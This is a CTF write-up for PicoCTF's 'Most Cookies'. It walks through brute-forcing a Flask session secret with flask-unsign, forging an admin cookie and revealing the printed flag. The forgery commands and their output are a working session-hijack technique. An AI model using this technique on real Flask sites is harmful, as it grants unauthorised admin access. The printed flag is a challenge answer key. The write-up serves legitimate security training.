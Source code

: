 
# Most Cookies

This is the write-up for the challenge **"Most Cookies"** from PicoCTF.

# The Challenge

## Description
Can you engineer a session cookie to get admin access? [Challenge link](http://mercury.picoctf.net:6259/)

![Challenge Page Screenshot](img/screenshot1.png)

## Hint
> How secure is a flask cookie?

# Initial Look

When opening the challenge URL, we're presented with a basic webpage. Inspecting it using Chrome DevTools shows that a `session` cookie is set.

![Session Cookie in Chrome](img/screenshot2.png)

# How to Solve It

Based on the hint and the cookie structure, it's clear this is a Flask-signed cookie. Flask uses a secret key to sign session cookies — if we can guess or brute-force it, we can forge our own.

---

## Step 1: Install `flask-unsign`

To work with Flask cookies, we can use [`flask-unsign`](https://github.com/Paradoxis/Flask-Unsign):

```bash
pip install flask-unsign
```

---

## Step 2: Prepare a Wordlist

From the provided `server.py`, we see potential cookie flavors that might be used as secret keys. Save them to `secrets.txt`:

```txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
...
```

---

## Step 3: Brute-Force the Secret Key

We use `flask-unsign` to try each word in the list against the cookie we found in DevTools:

```bash
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aApEjA.velsXl_k4Tvka8YX-7-0u_tvlIQ" --wordlist secrets.txt
```

**Output:**
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attempts: gingersnap
```

---

## Step 4: Forge a New Cookie

Now that we have the secret key, we generate a new session cookie with elevated privileges:

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
```

**Output:**
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aApFnw.Ye7a8GuH9VsrIKXMr-jLAUN8p4M
```

---

## Step 5: Replace the Cookie in the Browser

1. Open DevTools > Application > Cookies.
2. Replace the old `session` value with the new one.
3. Refresh the page.

---

# Final Result

The page now loads with admin access, and the flag is revealed! 😎

**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

Cheers 😄

